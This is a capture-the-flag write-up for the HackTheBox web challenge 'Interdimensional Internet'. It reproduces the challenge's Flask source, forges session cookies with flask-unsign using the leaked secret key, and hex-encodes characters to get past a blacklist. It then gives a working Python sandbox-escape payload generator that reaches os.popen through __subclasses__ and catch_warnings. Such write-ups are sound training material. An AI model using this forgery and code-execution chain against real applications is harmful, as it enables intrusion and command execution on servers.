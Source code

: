 - [Interdimensional Internet](#interdimensional-internet)
  - [The site](#the-site)
    - [Secret Key](#secret-key)
    - [Hacking the session token with flask-unsign](#hacking-the-session-token-with-flask-unsign)
    - [Entry point](#entry-point)
    - [Bypassing the forbidden characters](#bypassing-the-forbidden-characters)
    - [Payload building](#payload-building)
      - [More info about the payload](#more-info-about-the-payload)

# Interdimensional Internet
| Type | Difficulty | Points | Site       | Author    | Solved    |
| ---- | ---------- | ------ | ---------- | --------- | --------- |
| Web  | Medium     | 30     | HackTheBox | makelaris | 28.2.2022 |

## The site
First you visited the web site through any browser.  
![Site](img/site.jpg)  

Nothing special. After refreshing the site multiple time i saw that the numbers are changing. So I went and took a look under the hood (CTRL + SHIFT + I on Firefox).
And I saw something interesting.  
![Debug](img/debug.jpg)  
So I visited the directory and voila. La Sauce Code!
```python
from flask import Flask, Response, session, render_template
import functools, random, string, os, re

app = Flask(__name__)
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY', 'tlci0GhK8n5A18K1GTx6KPwfYjuuftWw')

def calc(recipe):
    global garage
    builtins, garage = {'__builtins__': None}, {}
    try: exec(recipe, builtins, garage)
    except: pass

def GFW(func): # Great Firewall of the observable universe and it's infinite timelines
    @functools.wraps(func)
    def federation(*args, **kwargs):
        ingredient = session.get('ingredient', None)
        measurements = session.get('measurements', None)

        recipe = '%s = %s' % (ingredient, measurements)
        if ingredient and measurements and len(recipe) >= 20:
            regex = re.compile('|'.join(map(re.escape, ['[', '(', '_', '.'])))
            matches = regex.findall(recipe)
            
            if matches: 
                return render_template('index.html', blacklisted='Morty you dumbass: ' + ', '.join(set(matches)))
            
            if len(recipe) > 300: 
                return func(*args, **kwargs) # ionic defibulizer can't handle more bytes than that
            
            calc(recipe)
            # return render_template('index.html', calculations=garage[ingredient])
            return func(*args, **kwargs) # rick deterrent

        ingredient = session['ingredient'] = ''.join(random.choice(string.lowercase) for _ in xrange(10))
        measurements = session['measurements'] = ''.join(map(str, [random.randint(1, 69), random.choice(['+', '-', '*']), random.randint(1,69)]))

        calc('%s = %s' % (ingredient, measurements))
        return render_template('index.html', calculations=garage[ingredient])
    return federation

@app.route('/')
@GFW
def index():
    return render_template('index.html')
 
@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run('0.0.0.0', port=1337)
```

### Secret Key
So the first thing that caught my eye was the secret key. In flask if you have the secret key you can sign your own sessions so I thought thats what the challenge wanted from me.

I looked around and saw that two variables were "made" using the session. Ingedient and measurements.
```python
ingredient = session.get('ingredient', None)
measurements = session.get('measurements', None)
```
Those two were then put together into a recipe.
And then checked for forbidden characters: '[', '(', '_', '.'
```python
recipe = '%s = %s' % (ingredient, measurements)
#One more line that checks if its over or equal to 20 but that doesn't matter
regex = re.compile('|'.join(map(re.escape, ['[', '(', '_', '.'])))
matches = regex.findall(recipe)
```
### Hacking the session token with flask-unsign
[Flask unsign](https://pypi.org/project/flask-unsign/) is a great tool for fetching, decoding, and brute-forcin flask applications secret keys. So that's why I used it.

I first took the stored session and decoded it with the bellow command.
I stored the token in a variable named token.
`flask-unsign --decode --cookie $token`  
And got an output of random string of letters and a random number.
`{'ingredient': b'aasdadavaw', 'measurements': b'1+1'}

I then modified the token so it overflowed and was bigger than 300 to get an error.
`flask-unsign --sign --cookie $cookie`
And woila. Morty the dumbass.  
![Site Error](img/site_error.jpg)

### Entry point
Now I knew i can modify the token. Now just where to use this.
Well lets take a look at calc. 
```python
def calc(recipe):
    global garage
    builtins, garage = {'__builtins__': None}, {}
    try: exec(recipe, builtins, garage)
    except: pass
```
It takes the recipe and puts it into exec with the __builtins__ module.
But wait isn't that dangerous? A small google search with exec builtins none will tell you YES!
https://stackoverflow.com/questions/59482234/is-an-execstring-builtins-none-a-secure-way-to-execute-user-inpu
And heres the payload.
```python
s = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('shellcode')"
exec(s, {'builtins': None})
```
Ok thats good. Well not really. Because builtins are set to none we have no Built in functions. So no import. My precious import :'(.
Ok so lets try putting another exec inside the exec.
So the command that is going to be executed would look like this:
```python
exec\'i=[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings\\"][0]()._module.__builtins__["__import__"];i(\\"os\\").system("'+command+'\\")\'#'
```
### Bypassing the forbidden characters
So now we need to bypass the forbidden characters.
Ok lets just hex encode them.
| Char | Hex |
| ---- | --- |
| .    | x2e |
| _    | x5f |
| [    | x5b |
| (    | x28 |
Ok so now we can go to the building the payload.

### Payload building
So first we take our payload and we hex encode it.

```python
def payload_com(command):
    value = [".", "_", "[","\'","("]
    hex_val = ['\\\\\\\\x2e', '\\\\\\\\x5f', '\\\\\\\\x5b', '\\\'','\\\\\\\\x28']
    #v1 too big
    string = 'exec\'i=[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == \\"catch_warnings\\"][0]()._module.__builtins__[\\"__import__\\"];i(\\"os\\").system(\\"'+command+'\\")\'#'
    #v2 just right. And uses the flask session and popen read to return the value of the command
    string = 'exec\'i=().__class__.__base__.__subclasses__()[59]()._module.__builtins__[\\"__import__\\"];i(\\"flask\\").session[\\"x\\"]=i(\\"os\\").popen(\\"'+command+'\\").read()\'#'
    for i in range(len(value)):
        string = string.replace(value[i], hex_val[i])
    return string
```
[More info about the payload](#more-info-about-the-payload)

Why so many slashes you ask? Well every time we use the command the slashes are halfed. Theyre halfed when we take the command and we put it into our flask-unsign and halfed on the server side and halfed when we for i in range the values.
I also modified the payload so it can be used with flask-unsign. I just put the whole command inside the terminal until it wasn't red anymore.

Then we make a session token and use the os.popen to execute the command.
```python
payload = payload_com(com)
session_token_generation_command = "flask-unsign --sign --cookie \"{'ingredient': b'"+payload+"', 'measurements': b'1+1'}\" --secret 'tlci0GhK8n5A18K1GTx6KPwfYjuuftWw'"
session_token = os.popen(session_token_generation_command).read().strip()
```
Then we send the cookie to the server.
```python
result_request = requests.get(host, cookies={'session':session_token})
```
And we get a new cookie back which we named x. And decode it with flask-unsign. And offcorse popen the command. And print.
```python
new_cookie = result_request.headers["Set-Cookie"].split("=")[1].split(";")[0]
ses_tok_dec_command = "flask-unsign --decode --cookie {}".format(new_cookie)
decoded = os.popen(ses_tok_dec_command).read().strip()
print(decoded)
```
Then we run the command and we search for the flag with ls.
But watch out you cant really cat out the really loooooooong flaaaaaak because its too long.
So you just use some Linux Magic and do `cat total*` and theres your flag.

#### More info about the payload
Ok so the payload was to big. Around 340 characters. To much ma boy.
So then I fired up my terminal python and looked at what it really does.
So i found out that this part iterates through the subclasses and searches for catch_warnings.
Well surely we can minimize that. Well yes.
```python
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == "catch_warnings"][0]
```
I just took a look at the subclasses. Printed out the indexes and the names until I found the catch_warnings subclass. Its the 59. So now we can easily shorten the payload to this:
```python
().__class__.__base__.__subclasses__()[59]
```
Damn almost half the length.

Also the os system doesn't return any output. Nada. Zilch. So that's why I used popen read.
